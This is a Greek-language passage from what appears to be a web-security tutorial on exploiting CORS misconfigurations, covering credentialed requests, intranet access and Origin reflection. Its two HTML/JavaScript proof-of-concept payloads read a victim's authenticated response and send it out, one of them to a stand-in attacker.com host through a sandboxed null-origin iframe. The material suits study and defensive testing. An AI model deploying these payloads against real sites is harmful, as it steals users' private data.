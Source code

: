 ## Εκμεταλλεύσιμες κακοδιαμορφώσεις

Έχει παρατηρηθεί ότι η ρύθμιση του `Access-Control-Allow-Credentials` σε **`true`** είναι προαπαιτούμενο για τις περισσότερες **πραγματικές επιθέσεις**. Αυτή η ρύθμιση επιτρέπει στον περιηγητή να στέλνει διαπιστευτήρια και να διαβάζει την απάντηση, ενισχύοντας την αποτελεσματικότητα της επίθεσης. Χωρίς αυτό, το όφελος από το να κάνει ένας περιηγητής ένα αίτημα αντί να το κάνει κάποιος μόνος του μειώνεται, καθώς η εκμετάλλευση των cookies ενός χρήστη γίνεται μη εφικτή.

### Εξαίρεση: Εκμετάλλευση Δικτυακής Θέσης ως Αυθεντικοποίηση

Υπάρχει μια εξαίρεση όπου η δικτυακή θέση του θύματος λειτουργεί ως μορφή αυθεντικοποίησης. Αυτό επιτρέπει στον περιηγητή του θύματος να χρησιμοποιείται ως μεσολαβητής, παρακάμπτοντας την αυθεντικοποίηση βάσει IP για την πρόσβαση σε εφαρμογές intranet. Αυτή η μέθοδος έχει ομοιότητες στην επίδραση με την DNS rebinding αλλά είναι πιο απλή στην εκμετάλλευση.

### Αντανάκλαση του `Origin` στο `Access-Control-Allow-Origin`

Το σενάριο του πραγματικού κόσμου όπου η τιμή της κεφαλίδας `Origin` αντανάκλαται στο `Access-Control-Allow-Origin` είναι θεωρητικά απίθανο λόγω περιορισμών στη συνδυαστική χρήση αυτών των κεφαλίδων. Ωστόσο, οι προγραμματιστές που επιθυμούν να ενεργοποιήσουν το CORS για πολλαπλές διευθύνσεις URL μπορεί να δημιουργήσουν δυναμικά την κεφαλίδα `Access-Control-Allow-Origin` αντιγράφοντας την τιμή της κεφαλίδας `Origin`. Αυτή η προσέγγιση μπορεί να εισάγει ευπάθειες, ιδιαίτερα όταν ένας επιτιθέμενος χρησιμοποιεί ένα τομέα με όνομα σχεδιασμένο να φαίνεται νόμιμο, παραπλανώντας έτσι τη λογική επικύρωσης.
```html
<script>
var req = new XMLHttpRequest()
req.onload = reqListener
req.open("get", "https://example.com/details", true)
req.withCredentials = true
req.send()
function reqListener() {
location = "/log?key=" + this.responseText
}
</script>
```
### Εκμετάλλευση του `null` Origin

Το `null` origin, που καθορίζεται για καταστάσεις όπως ανακατευθύνσεις ή τοπικά αρχεία HTML, κατέχει μια μοναδική θέση. Ορισμένες εφαρμογές επιτρέπουν αυτό το origin για να διευκολύνουν την τοπική ανάπτυξη, επιτρέποντας ακούσια σε οποιαδήποτε ιστοσελίδα να μιμηθεί ένα `null` origin μέσω ενός sandboxed iframe, παρακάμπτοντας έτσι τους περιορισμούς CORS.
```html
<iframe
sandbox="allow-scripts allow-top-navigation allow-forms"
src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```
